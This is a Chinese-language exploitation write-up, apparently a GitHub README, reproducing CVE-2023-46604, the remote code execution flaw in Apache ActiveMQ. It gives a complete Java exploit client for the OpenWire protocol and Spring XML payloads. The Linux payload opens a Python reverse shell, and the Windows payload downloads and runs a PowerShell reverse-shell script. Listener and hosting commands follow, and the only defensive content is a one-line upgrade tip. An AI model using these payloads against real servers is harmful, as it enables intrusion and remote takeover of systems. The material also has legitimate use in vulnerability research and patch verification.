 # CVE-2023-46604：Apache ActiveMQ远程代码执行漏洞
## 影响版本
Apache ActiveMQ < 5.18.3
Apache ActiveMQ < 5.17.6
Apache ActiveMQ < 5.16.7
Apache ActiveMQ < 5.15.16
## 搭建环境
kali：192.168.28.132(http服务、反弹shell接收)
centOS(Active MQ)：192.168.28.130
### 设置外网访问
~/conf/jetty.xml
```bash
<bean id="jettyPort" class="org.apache.activemq.web.WebConsolePort" init-method="start">
    <!-- the default port number for the web console -->
    <property name="host" value="192.168.28.130"/>
    <property name="port" value="8161"/>
</bean>

```
![image1](./images/image1.png)
默认账号密码：admin/admin
## 配置修改
~/exp/ActiveMQ.java
```bash
import java.io.*;
import java.net.Socket;

public class ActiveMQ {
    public static void main(final String[] args) throws Exception {
        System.out.println("[*] Poc for ActiveMQ openwire protocol rce");
        String ip = "192.168.28.130";  # ActiveMQ服务IP
        int port = 61616;
        String pocxml= "http://10.100.54.33:8000/poc.xml";  # http服务IP:port
        Socket sck = new Socket(ip, port);
        OutputStream os = sck.getOutputStream();
        DataOutputStream out = new DataOutputStream(os);
        out.writeInt(0); //无所谓
        out.writeByte(31); //dataType ExceptionResponseMarshaller
        out.writeInt(1); //CommandId
        out.writeBoolean(true); //ResponseRequired
        out.writeInt(1); //CorrelationId
        out.writeBoolean(true);
        //use true -> red utf-8 string
        out.writeBoolean(true);
        out.writeUTF("org.springframework.context.support.ClassPathXmlApplicationContext");
        //use true -> red utf-8 string
        out.writeBoolean(true);
        out.writeUTF(pocxml);
        //call org.apache.activemq.openwire.v1.BaseDataStreamMarshaller#createThrowable cause rce
        out.close();
        os.close();
        sck.close();
        System.out.println("[*] Target\t" + ip + ":" + port);
        System.out.println("[*] XML address\t" + pocxml);
        System.out.println("[*] Payload send success.");
    }
}
```
~/exp/poc.xml
此文件要放在http服务目录下，一般为运行开启http服务的当前目录下
linux_poc.xml
```bash
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
 <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>python</value>
        <value>-c</value>
        <!--linux反弹shell -->
        <value><![CDATA[import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{nc反弹接收shell的IP}",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```
win_poc.xml
```bash
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
 <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>python</value>
        <value>-c</value>
        <!--windows反弹shell -->
        <value><![CDATA[IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAdress {{反弹shell的地址}} -Port 9999]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```
## 漏洞利用
![image2](./images/image2.png)

![image3](./images/image3.png)

启动http服务
`python3 -m http.server`

启动监听端口
`nc -lvvp 9999`

成功接收到反弹shell
![image4](./images/image4.png)
## 修复建议
升级到已修复版本
## 参考链接
搭建java环境：https://www.cnblogs.com/stulzq/p/9286878.html
POC：https://github.com/sincere9/Apache-ActiveMQ-RCE/
步骤：https://blog.csdn.net/huangyongkang666/article/details/134138471


ve 10
ac 9
se 10